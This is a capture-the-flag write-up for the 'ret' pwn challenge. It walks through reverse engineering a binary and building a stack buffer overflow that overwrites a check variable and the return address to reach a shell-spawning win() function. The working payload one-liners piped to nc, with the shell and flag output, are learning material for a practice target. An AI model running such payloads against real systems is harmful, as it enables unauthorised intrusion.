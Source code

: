 # ret
**Category:** Pwn

**Points:** 50

**Description:**

Author: kablaa

nc ctf.hackucf.org 9003

> **Files:** ret, libpwnableharness32.so

## Write-up
When run the code waits for user input, then prints a message:
```
> nc ctf.hackucf.org 9003
hello
you suck!

```
There was no code provided, so I started by running `strings` over the executable:
```
...
[^_]
you Win!
/bin/sh
you suck!
ctf_ret
;*2$"
GCC: (Ubuntu 5.4.0-6ubuntu1~16.04.9) 5.4.0 20160609
crtstuff.c
__JCR_LIST__
deregister_tm_clones
__do_global_dtors_aux
completed.7209
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
ret.c
__FRAME_END__
__JCR_END__
__init_array_end
_DYNAMIC
__init_array_start
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
_ITM_deregisterTMCloneTable
__x86.get_pc_thunk.bx
_edata
__data_start
puts@@GLIBC_2.0
system@@GLIBC_2.0
__gmon_start__
exit@@GLIBC_2.0
__dso_handle
handle_connection
_IO_stdin_used
...
```
You can see there is a `you Win!` message which is where we need to get to, the `you suck!` message, and the `handle_connection` function which will do the work. I opened the code in IDA Pro to look at that function. It just calls another function named `func`:

![Handle connection function](handle_connection.png)

So I looked at the `func` function:

![Func function](func.png)

Looking at the `func` function we can see a 4-byte (integer) variable set to 0 (`ebp+var_C`), a call to `scanf()` and a comparison of the variable `ebp+var_C` to `0xdeadbeef`. This means we need to overwrite the interger variable with the value for `oxdeadbeef`. However, this won't be enough. The jump after the comparison doesn't jump to the `win()` function, but instead just returns. This means we also need to overwrite the return pointer on the stack to point to the `win()` function:

I had a look at the decompiled code in Ghidra to confirm what I saw in IDA Pro:

![Decompiled func function](func_c.png)

Now we can see we have a 64-byte `buffer`, and our integer `value`. Lets start debuging and look at the stack.

First I create a file containing just 64 `A` characters to help us see our stack layout:
```
> python -c "print('A'*64)" > inp.txt
```
This file can now be used in the **Process options** of the debugger to send the characters to the running process. Now lets run it and look at what's happening.

If we look at the `handle_connection` function, and where it calls `func`, we can see that the next statement after the call is at `0x08048696`:

![Handle connection function addresses](handle_connection_return.png)

We can see this address on the stack at `0xffb6e31C`

![Stack return address](stack_return_address.png)

If we hover the mouse over `ebp+var_C`, we can see the address of that variable on the stack is `0xffb6e30c`:

![ebp+var_C address](ebp_var_c_location.png)

and if we look at that on the stack we can see it has been set to zero:

![Value on stack](value_on_stack.png)

If we hover the mouse over `ebp+var_4C`, we can see the address of the buffer on the stack is `0xffb6e2cc`:

![ebp+var_4C address](ebp_var_4c_location.png)

and, once we've passed the `scanf()` call, we can see the buffer filled with `A` characters on the stack:

![Buffer on stack](buffer_on_stack.png)

As a first try we can put 64 `A` characters, followed by `0xdeadbeef`, followed by 12 `A` characters, followed by the address of the `win()` function. This will overwrite some other parts of the stack, which may cause problems, but we can try it.

Looking at the code, the address we need for the `win()` function is `0x0804861B`:

![Win function](win_func.png)

We can also see that calling the `win()` function will give us a shell on the server, so we can `cat` the flag file.

 We need to remember that both `0xdeadbeef` and the `win()` address need to be reversed on the stack. However, our return address has the same first four bytes as our `win()` address, so we can just change 1 byte to set it. Our `inp.txt` file is now created with:
```
> python -c "print('A'*64 + '\xef\xbe\xad\xde' + 'A'*12 + '\x1B')" > inp.txt
```
> Note: The above works in Python2. As Python3 uses Unicode for the basic string, and print() expects Unicode, for Python3 use:
python3 -c "import sys; sys.stdout.buffer.write(b'A'*64 + b'\xef\xbe\xad\xde' + b'A'*12 + b'\x1B')" > inp.txt

Only changing the single value in the address didn't work because `scanf()` adds a `NULL` terminator on the end of the input string, overwriting the next byte with `0x00`. Therefore, I tried again with the full address:
```
> python -c "print('A'*64 + '\xef\xbe\xad\xde' + 'A'*12 + '\x1B\x86\x04\x08')" > inp.txt
```
> Note: The above works in Python2. As Python3 uses Unicode for the basic string, and print() expects Unicode, for Python3 use:
python3 -c "import sys; sys.stdout.buffer.write(b'A'*64 + b'\xef\xbe\xad\xde' + b'A'*12 + b'\x1B\x86\x04\x08')" > inp.txt

This works in the debugger, so now we can test it on the server:
```
> python -c "print('A'*64 + '\xef\xbe\xad\xde' + 'A'*12 + '\x1B\x86\x04\x08')" | nc ctf.hackucf.org 9003
```
> Note: The above works in Python2. As Python3 uses Unicode for the basic string, and print() expects Unicode, for Python3 use:
python3 -c "import sys; sys.stdout.buffer.write(b'A'*64 + b'\xef\xbe\xad\xde' + b'A'*12 + b'\x1B\x86\x04\x08')" | nc ctf.hackucf.org 9003

This didn't work beacuse I forgot to use `cat` to ensure we get chance to interact with the shell. I now tried:
```
> (python -c "print('A'*64 + '\xef\xbe\xad\xde' + 'A'*12 + '\x1B\x86\x04\x08')" ; cat) | nc ctf.hackucf.org 9003
you Win!

ls
flag.txt
ret
cat flag.txt
flag{<flag was here>}
```
> Note: The above works in Python2. As Python3 uses Unicode for the basic string, and print() expects Unicode, for Python3 use:
(python3 -c "import sys; sys.stdout.buffer.write(b'A'*64 + b'\xef\xbe\xad\xde' + b'A'*12 + b'\x1B\x86\x04\x08')" ; cat) | nc ctf.hackucf.org 9003

After the `you Win!` message I had a shell and was able to type `ls` and then `cat flag.txt` to get the flag!
